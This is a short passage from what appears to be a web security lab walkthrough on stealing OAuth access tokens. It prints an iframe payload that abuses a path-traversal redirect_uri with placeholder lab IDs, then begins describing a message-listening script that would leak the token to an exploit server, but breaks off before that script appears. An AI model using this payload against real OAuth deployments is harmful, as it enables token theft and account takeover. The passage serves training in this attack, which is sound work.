    `<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>`
- Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:


